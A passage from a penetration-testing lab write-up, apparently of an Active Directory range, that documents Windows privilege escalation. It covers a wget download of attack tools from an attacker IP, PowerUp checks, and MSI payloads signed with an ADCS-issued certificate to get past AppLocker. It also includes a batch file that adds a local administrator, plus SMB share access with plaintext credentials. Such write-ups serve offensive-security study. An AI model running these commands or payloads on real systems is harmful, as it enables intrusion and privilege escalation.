InboundConnections         : {1b0c71ff-b840-4108-8363-ba324027db0c}
OutboundConnections        : {}
Name                       : coredc.core.cyber.local
Partitions                 : {CN=Configuration,DC=cyber,DC=local, CN=Schema,CN=Configuration,DC=cyber,DC=local, DC=ForestDnsZones,DC=cyber,DC=local,
                             DC=core,DC=cyber,DC=local...}


PS C:\temp> wget http://10.10.14.3:8080/Powermad.ps1 -outfile Powermad.ps1 
PS C:\temp> Import-module .\Powermad.ps1
PS C:\temp>
```

But I still need the credentials so i will first try to use InstallUtil.exe:

https://lolbas-project.github.io/lolbas/Binaries/Installutil/

&nbsp;

And I need to get back to drawing plan, I will upload powerup and run all checks:

```
PS C:\temp> Invoke-AllChecks 


ServiceName                     : edgeupdate
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /svc
ModifiableFile                  : C:\
ModifiableFilePermissions       : AppendData/AddSubdirectory
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdate'
CanRestart                      : False
Name                            : edgeupdate
Check                           : Modifiable Service Files

ServiceName                     : edgeupdate
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /svc
ModifiableFile                  : C:\
ModifiableFilePermissions       : {Delete, GenericWrite, GenericExecute, GenericRead}
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdate'
CanRestart                      : False
Name                            : edgeupdate
Check                           : Modifiable Service Files

ServiceName                     : edgeupdatem
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /medsvc
ModifiableFile                  : C:\
ModifiableFilePermissions       : AppendData/AddSubdirectory
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdatem'
CanRestart                      : False
Name                            : edgeupdatem
Check                           : Modifiable Service Files

ServiceName                     : edgeupdatem
Path                            : "C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe" /medsvc
ModifiableFile                  : C:\
ModifiableFilePermissions       : {Delete, GenericWrite, GenericExecute, GenericRead}
ModifiableFileIdentityReference : NT AUTHORITY\Authenticated Users
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'edgeupdatem'
CanRestart                      : False
Name                            : edgeupdatem
Check                           : Modifiable Service Files

ModifiablePath    : C:\Users\Ilene.Rasch\AppData\Local\Microsoft\WindowsApps
IdentityReference : core\Ilene.Rasch
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\Ilene.Rasch\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\Ilene.Rasch\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\Ilene.Rasch\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

Check         : AlwaysInstallElevated Registry Key
AbuseFunction : Write-UserAddMSI

DefaultDomainName    : core.cyber.local
DefaultUserName      : Ilene.Rasch
DefaultPassword      :
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
Check                : Registry Autologons


PS C:\temp>
```

As we already know install elevated might be a good start so we can generate a MSI for a new user:

```
PS C:\temp> Write-UserAddMSI 

OutputPath
----------
UserAdd.msi
```

Now the MSI need to be placed under C:\\Windows\\\*

But it will wills till fail cause it need to be digitally signed.

So looking around we can use this native tool, and we have the pfx as well from OWA:

```
https://learn.microsoft.com/en-us/dotnet/framework/tools/signtool-exe
```

Now to maker it work I hope I can use a self signed certificate: https://www.meziantou.net/generate-a-self-signed-certificate-for-code-signing.htm

Firstly i generate a self signed cert for Code signing:

```
PS C:\Users\aleks\Downloads> $cert = New-SelfSignedCertificate -DnsName sample.contoso.com -Type CodeSigning -CertStoreLocation Cert:\CurrentUser\My
PS C:\Users\aleks\Downloads> Get-Module

ModuleType Version    Name                                ExportedCommands
---------- -------    ----                                ----------------
Manifest   3.1.0.0    Microsoft.PowerShell.Management     {Add-Computer, Add-Content, Checkpoint-Computer, Clear-Con...
Manifest   3.0.0.0    Microsoft.PowerShell.Security       {ConvertFrom-SecureString, ConvertTo-SecureString, Get-Acl...
Manifest   1.0.0.0    PKI                                 {Add-CertificateEnrollmentPolicyServer, Export-Certificate...
Script     2.0.0      PSReadLine                          {Get-PSReadLineKeyHandler, Get-PSReadLineOption, Remove-PS...


PS C:\Users\aleks\Downloads> echo $cert


   PSParentPath: Microsoft.PowerShell.Security\Certificate::CurrentUser\My

Thumbprint                                Subject
----------                                -------
32183D56AE089C58B85E9C5F0F3A25EAC847756E  CN=sample.contoso.com


PS C:\Users\aleks\Downloads> Export-PfxCertificate -Cert "cert:\CurrentUser\My\$($cert.Thumbprint)" -FilePath "C:\Users\aleks\Downloads\self.pfx" -Password $SecPassword


    Directory: C:\Users\aleks\Downloads


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         6/18/2024   2:07 PM           2646 self.pfx
```



And now we can sign with the native sign tool.exe

```
PS C:\Program Files (x86)\Windows Kits\10\bin\10.0.22621.0\x64> .\signtool.exe sign /f "C:\Users\aleks\Downloads\self.pfx" /p "Coglione1!" /t http://timestamp.digicert.com /fd SHA256 "C:\Users\aleks\Downloads\Rubeus.exe"
Done Adding Additional Store
```

Now to have a better undersyanding of Applocker I will use this:

https://github.com/api0cradle/PowerAL

And we can see how the applocker is setup for all the possible appprofiles:

```
PS C:\Windows\tracing> Import-Module .\PowerAL.ps1
PS C:\Windows\tracing> Invoke-PALAllInfo

[*] Running Invoke-PALAllInfo


[*] Checking AppLocker Rule status


Name   : Appx
Status : Enforced

Name   : Dll
Status : Enforced

Name   : Exe
Status : Enforced

Name   : Msi
Status : Enforced

Name   : Script
Status : Enforced


[*] Checking AppLocker Service status


Name      : AppIDSvc
Status    : Running
StartType : Automatic


[*] Getting AppLocker rules


Name      : Appx
RulesList : {@{ParentName=Appx; Ruletype=FilePublisherRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the Everyone group to run packaged apps that are signed.;    
            Name=(Default Rule) All signed packaged apps; Id=a9e18c21-ff8f-43cf-b9fc-db40eed693ba; PublisherName=*; Productname=*; BinaryName=*; LowSection=0.0.0.0;
            HighSection=*}}

Name      : Dll
RulesList : {@{ParentName=Dll; Ruletype=FilePathRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the Everyone group to load DLLs that are located in the Program    
            Files folder.; Name=(Default Rule) All DLLs located in the Program Files folder; Id=3737732c-99b7-41d4-9037-9cddfb0de0d0; Path=C:\Program Files\;
            RulePath=%PROGRAMFILES%\*}, @{ParentName=Dll; Ruletype=FilePathRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the Everyone group to load DLLs that    
            are located in the Program Files folder.; Name=(Default Rule) All DLLs located in the Program Files folder; Id=3737732c-99b7-41d4-9037-9cddfb0de0d0; Path=C:\Program  
            Files (x86)\; RulePath=%PROGRAMFILES%\*}, @{ParentName=Dll; Ruletype=FilePathRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the Everyone group to     
            load DLLs located in the Windows folder.; Name=Microsoft Windows DLLs; Id=ffd45a59-9628-4577-af71-873c9909b555; Path=C:\WINDOWS\; RulePath=%WINDIR%\*}}

Name      : Exe
RulesList : {@{ParentName=Exe; Ruletype=FilePathRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the Everyone group to run applications that are located in the 
            Program Files folder.; Name=(Default Rule) All files located in the Program Files folder; Id=921cc481-6e17-4653-8f75-050b80acca20; Path=C:\Program Files\;
            RulePath=%PROGRAMFILES%\*}, @{ParentName=Exe; Ruletype=FilePathRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the Everyone group to run applications  
            that are located in the Program Files folder.; Name=(Default Rule) All files located in the Program Files folder; Id=921cc481-6e17-4653-8f75-050b80acca20;
            Path=C:\Program Files (x86)\; RulePath=%PROGRAMFILES%\*}, @{ParentName=Exe; Ruletype=FilePathRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the       
            Everyone group to run applications that are located in the Windows folder.; Name=(Default Rule) All files located in the Windows folder;
            Id=a61c8b2c-a319-4cd0-9690-d2177cad7b51; Path=C:\WINDOWS\; RulePath=%WINDIR%\*}}

Name      : Msi
RulesList : {@{ParentName=Msi; Ruletype=FilePublisherRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the Everyone group to run digitally signed Windows Installer  
            files.; Name=All digitally signed Windows Installer files; Id=4329051b-bbfd-4dc1-8f28-e4a8a62b0ddd; PublisherName=*; Productname=*; BinaryName=*;
            LowSection=0.0.0.0; HighSection=*}, @{ParentName=Msi; Ruletype=FilePathRule; Action=Allow; SID=S-1-1-0; Description=Allows members of the Everyone group to run all   
            Windows Installer files located in %systemdrive%\Windows\Installer.; Name=(Default Rule) All Windows Installer files in %systemdrive%\Windows\Installer;
            Id=5b290184-345a-4453-b184-45305f6d9a54; Path=C:\WINDOWS\Installer\; RulePath=%WINDIR%\Installer\*}}


PS C:\Windows\tracing>
```

Specifically this one:



If this is true then we can find a writablle path and replace the file there:

```
[+] SERVICE BINARY PERMISSIONS WITH WMIC and ICACLS
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe NT AUTHORITY\SYSTEM:(I)(F)

C:\Program Files (x86)\Microsoft\EdgeUpdate\MicrosoftEdgeUpdate.exe NT AUTHORITY\SYSTEM:(I)(F)
```

&nbsp;

# Totally panicking

Here I got another insider tips to check to samba shares with what we got? Seems like that George credentials can surf sharss on the FS since it is a bi-trust resurces can be reused:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/www]
└─# NetExec smb 10.9.10.14 -d "core.cyber.local" -u 'george.wirth' -p 'v765#QLm^8' --shares
SMB         10.9.10.14      445    CYFS             [*] Windows 10 / Server 2016 Build 14393 x64 (name:CYFS) (domain:cyber.local) (signing:True) (SMBv1:False)
SMB         10.9.10.14      445    CYFS             [+] core.cyber.local\george.wirth:v765#QLm^8 
SMB         10.9.10.14      445    CYFS             [*] Enumerated shares
SMB         10.9.10.14      445    CYFS             Share           Permissions     Remark
SMB         10.9.10.14      445    CYFS             -----           -----------     ------
SMB         10.9.10.14      445    CYFS             Accounting                      
SMB         10.9.10.14      445    CYFS             ADMIN$                          Remote Admin
SMB         10.9.10.14      445    CYFS             Audit                           
SMB         10.9.10.14      445    CYFS             Business Development                 
SMB         10.9.10.14      445    CYFS             C$                              Default share
SMB         10.9.10.14      445    CYFS             Customer Service                 
SMB         10.9.10.14      445    CYFS             DevOps                          
SMB         10.9.10.14      445    CYFS             Directors                       
SMB         10.9.10.14      445    CYFS             Engineering                     
SMB         10.9.10.14      445    CYFS             GroupShare      READ,WRITE      
SMB         10.9.10.14      445    CYFS             Help Desk                       
SMB         10.9.10.14      445    CYFS             Human Resources                 
SMB         10.9.10.14      445    CYFS             Interns                         
SMB         10.9.10.14      445    CYFS             IPC$            READ            Remote IPC
SMB         10.9.10.14      445    CYFS             IT Admins                       
SMB         10.9.10.14      445    CYFS             Linux Admins                    
SMB         10.9.10.14      445    CYFS             Management                      
SMB         10.9.10.14      445    CYFS             Marketing                       
SMB         10.9.10.14      445    CYFS             Operations                      
SMB         10.9.10.14      445    CYFS             Purchasing                      
SMB         10.9.10.14      445    CYFS             Quality Assurance                 
SMB         10.9.10.14      445    CYFS             RDS-Users       READ,WRITE      
SMB         10.9.10.14      445    CYFS             Sales                           
SMB         10.9.10.14      445    CYFS             Server Admins
```

And from GroupShare some info:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics/core_local]
└─# smbclient '//10.9.10.14/GroupShare' -U "CORE.CYBER.LOCAL\george.wirth%v765#QLm^8"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Jun 18 16:06:49 2024
  ..                                  D        0  Tue Jun 18 16:06:49 2024
  aes.key                             A      298  Wed Nov 13 16:24:58 2019
  passwd.txt                          A      278  Wed Nov 13 16:24:58 2019
  ReadMe.txt                          A       95  Wed Nov 13 16:34:36 2019

        5153023 blocks of size 4096. 1382642 blocks available
smb: \> get aes.key 
getting file \aes.key of size 298 as aes.key (2.0 KiloBytes/sec) (average 2.0 KiloBytes/sec)
smb: \> get passwd.txt 
getting file \passwd.txt of size 278 as passwd.txt (1.9 KiloBytes/sec) (average 1.9 KiloBytes/sec)
smb: \> get ReadMe.txt 
getting file \ReadMe.txt of size 95 as ReadMe.txt (0.7 KiloBytes/sec) (average 1.5 KiloBytes/sec)
```

The rest seems not working at all!

```
└─# cat ReadMe.txt 
Team:

This is an example of how to securely store credentials in plainsight. DevOPS ftw! ( =
```

Now this seems like a password securestring to me isn't it?

&nbsp;

# Back on Track

Now we know that next flag is about signatures, and I guess we will need to perform the signature attack so we can gain access on this machine, Before that I will use Robert Ortiz credentials to generate a new self signed certitficate from ADCS and gain access to Jeniksn?



Nice now we can codesign tihi! Now we can ask one certificate to login into jenkins:



But also generating a code signing certificate to sign our exploits!



Now we can export this pfx and use it with sign tool to safe sign our files! Specifically i think I will use the metasploit one that adds users to local pool!

```
PS C:\Users\aleks\Downloads\SignTool-10.0.22621.6-x64> .\signtool.exe sign /f ..\robert_ortiz_code.pfx /p "Coglione1!" /fd SHA256 ..\yovecio.msi
Done Adding Additional Store
Successfully signed: ..\yovecio.msi
PS C:\Users\aleks\Downloads\SignTool-10.0.22621.6-x64>
```

Signature seems quite right:  


Now we should be able to upload it and run the exploit. Since the msfvenom script isn't working I will use this guide to add a new wrapper:

https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/msi-wrapper

I will first create a bat file:

```
@echo off
:: Adding a local user with specified username and password
net user yovecio "Coglione1!" /add

:: Adding the user to the local administrators group
net localgroup administrators yovecio /add

:: Inform the user about the operation's success
echo User 'yovecio' has been created and added to the Administrators group.
```

Adding the payload:



And now adjusting the permissions:



And signing:

```
PS C:\Users\aleks\Downloads\SignTool-10.0.22621.6-x64> .\signtool.exe sign /f ..\robert_ortiz_code.pfx /p "Coglione1!" /fd SHA256 ..\payload.msi
Done Adding Additional Store
Successfully signed: ..\payload.msi
PS C:\Users\aleks\Downloads\SignTool-10.0.22621.6-x64>
```



And now we need to move the fail to a secure path, basically everything in Windows/\* is safe! This is because of the Applocker that preveents normal user to do most of the stuff!



Since my Tracing is full i will use tasks this time:

```
PS C:\Windows\Tasks> msiexec /quiet /qn /i  C:\Windows\Tasks\payload.msi
PS C:\Windows\Tasks> net user

User accounts for \\COREWKT001

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
lkys37en                 WDAGUtilityAccount       yovecio
The command completed successfully.

PS C:\Windows\Tasks> net localgroup administrators
Alias name     administrators
Comment

Members

-------------------------------------------------------------------------------
Administrator
core\Domain Admins
yovecio
The command completed successfully.

PS C:\Windows\Tasks>
```

yeah baby now we can rdp! But this was totally worthless as login as local user isn't allowed:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/Cybernetics]
└─# NetExec smb 10.9.15.200 -u 'yovecio' -p 'Coglione1!' --local-auth
SMB         10.9.15.200     445    COREWKT001       [*] Windows 10 / Server 2019 Build 19041 x64 (name:COREWKT001) (domain:COREWKT001) (signing:True) (SMBv1:False)
SMB         10.9.15.200     445    COREWKT001       [-] COREWKT001\yovecio:Coglione1! STATUS_LOGON_TYPE_NOT_GRANTED
```

But using the havoc.exe we can get a shell back to HAVOC-

